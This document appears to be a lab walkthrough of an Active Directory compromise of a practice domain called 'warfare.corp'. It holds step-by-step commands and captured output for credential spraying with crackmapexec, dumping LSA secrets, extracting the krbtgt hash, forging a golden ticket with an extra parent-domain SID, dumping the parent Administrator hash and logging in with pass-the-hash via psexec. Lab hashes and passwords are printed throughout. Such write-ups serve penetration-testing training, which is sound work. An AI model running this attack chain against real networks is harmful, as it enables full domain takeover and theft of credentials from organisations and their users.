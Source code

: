 #### Initial Access of the newly accessible network
``#nmap -sn 192.168.98.0/24 
![[Pasted image 20250823204128.png]]

Remember this credential we found earlier in firefox files:
![[Pasted image 20250823204444.png]]
Creds: 
	Username: john
	Password: User1@#$%6
	
Let’s spray the discovered credentials in the network using crackmapexec toolkit.
``# vim targets.txt
![[Pasted image 20250823204240.png]]

``#crackmapexec --verbose smb targets.txt -u john -p 'User1@#$%6'
![[Pasted image 20250823205056.png]]

Perfect! User **John** is a local administrator at “192.168.98.30” machine, the name is “MGMT

Now, let’s dump the LSA (Authentication Handler & Secrets Manager) process using crackmapexec toolkit, it utilizes impacket's module secretsdump for the same

``#crackmapexec --verbose smb 192.168.98.30 -u john -p 'User1@#$%6' --lsa
![[Pasted image 20250823210132.png]]


To recap: 
*) Validated Credentials
Username: john
Password: User1@#$%6
Domain: child.warfare.corp
Host: 192.168.98.30 (Hostname: MGMT)
Access: Local Administrator (Pwn3d!)

*) Dumped Cached Logon Hashes
CHILD.WARFARE.CORP/john:$DCC2$10240#john#9855312d42ee254a7334845613120e61
CHILD.WARFARE.CORP/corpmngr:$DCC2$10240#corpmngr#7fd50bbab99e8ea7ae9c1899f6dea7c6


*) Machine Account Hashes (CHILD\MGMT$)
aes256-cts-hmac-sha1-96: 344c70047ade222c4ab35694d4e3e36de556692f02ec32fa54d3160f36246eec
aes128-cts-hmac-sha1-96: aa5b3d84614911fe611eafbda613baaf
des-cbc-md5:             6402e0c20b89d386
NTLM:                    aad3b435b51404eeaad3b435b51404ee:0f5fe480dd7eaf1d59a401a4f268b563


*) DPAPI Secrets (Data Protection API keys)
dpapi_machinekey: 0x34e3cc87e11d51028ffb38c60b0afe35d197627d
dpapi_userkey:    0xb890e07ba0d31e31c758d305c2a29e1b4ea813a5

*) NL$KM Secret (used to encrypt cached credentials)
NL$KM:
df885acfa168074cc84de093af76093e726cd092e9ef9c72d6fe59c6cbb70382
d896c9569b67dcdac871dd77b96916c8c1187d40c118474c481ddf62a7c04682


**AND we got the clear-text credentials of the user “corpmngr” **
![[Pasted image 20250823211111.png]]
Creds: (MGMT Machine)
- Username: corpmngr
- Password: User4&*&*

Again, let’s spray the credentials in the network using the new creds 
``#crackmapexec --verbose smb targets.txt -u corpmngr -p 'User4&*&*'

![[Pasted image 20250824093125.png]]

--> We got working creds as local **Administrator** in the **CDC** machine at **192.168.98.120**
Creds: (CDC Machine)
- Username: corpmngr
- Password: User4&*&*


Since we know the machine name & the domain, let’s update the same on our hosts file.

``#vim /etc/hosts
```
192.168.98.2 warfare.corp dc01.warfare.corp  
192.168.98.120 child.warfare.corp cdc.child.warfare.corp
```

![[Pasted image 20250824093042.png]]

Since we are local administrator in the Child DC (.120), let's extract the hash of **KRB TGT** (Ticket Grant Ticket) account using impacket secretsdump script. We will forge a **KRB TGS** (Golden Ticket) to compromise the Parent DC (.2)

``#impacket-secretsdump -debug child/corpmngr:'User4&*&*'@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'

![[Pasted image 20250824093750.png]]

```
[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=child,DC=warfare,DC=corp
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
...
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
```

We will now perform SID Extraction using lookupsid python script.

```
Child Grabbing:
# impacket-lookupsid child/corpmngr:'User4&*&*'@child.warfare.corp  

Parent Grabbing:
# impacket-lookupsid child/corpmngr:'User4&*&*'@warfare.corp  
```

Child SID Found:
![[Pasted image 20250824094245.png]]

Parent SID Found: 
![[Pasted image 20250824094429.png]]

For now, here's what we have: 
```
- krbtgt aes256 Hash  
ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2  
- Parent SID : S-1-5-21-3375883379-808943238-3239386119  
- Child SID : S-1-5-21-3754860944-83624914-1883974761  
```

We will forge golden ticket using ticketer as follows and then set the ccache file to the environment variable :  
``# impacket-ticketer -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid S-1-5-21-3754860944-83624914-1883974761 -groups 516 -user-id 1106 -extra-sid S-1-5-21-3375883379-808943238-3239386119-516,S-1-5-9 'corpmngr'
``# export KRB5CCNAME=corpmngr.ccache 

![[Pasted image 20250824095041.png]]

Request Service Ticket using the ccache file & export: 
![[Pasted image 20250824095305.png]]

Parent Domain Controller Takeover: 
``# impacket-secretsdump -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator' -debug
![[Pasted image 20250824095532.png]]

```
[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] Using Kerberos Cache: corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
[+] Domain retrieved from CCache: CHILD.WARFARE.CORP
[+] Returning cached credential for CIFS/DC01.WARFARE.CORP@WARFARE.CORP
[+] Using TGS from cache
[+] Changing sname from CIFS/dc01.warfare.corp@WARFARE.CORP to CIFS/DC01.WARFARE.CORP@CHILD.WARFARE.CORP and hoping for the best
[+] Username retrieved from CCache: corpmngr
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Calling DRSCrackNames for warfare\Administrator 
[+] Calling DRSGetNCChanges for {17446816-c072-445e-ac9b-c0e28630bed6} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=warfare,DC=corp
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283:::
[+] Leaving NTDSHashes.__decryptHash
[+] Entering NTDSHashes.__decryptSupplementalInfo
[+] Leaving NTDSHashes.__decryptSupplementalInfo
[+] Finished processing and printing user's hashes, now printing supplemental information
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:b8844cc6622c448c9b9f657e7a67ad7f9f26fa2c1c7520b7f1ad28389c6fdb91
Administrator:aes128-cts-hmac-sha1-96:cea9408d32669cad4f2938252928b38d
Administrator:des-cbc-md5:614ce65740c8b0a8
[*] Cleaning up... 
```

Let’s access with Administrator credentials the **Parent DC** (dc01)
``# impacket-psexec -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283

![[Pasted image 20250824095742.png]]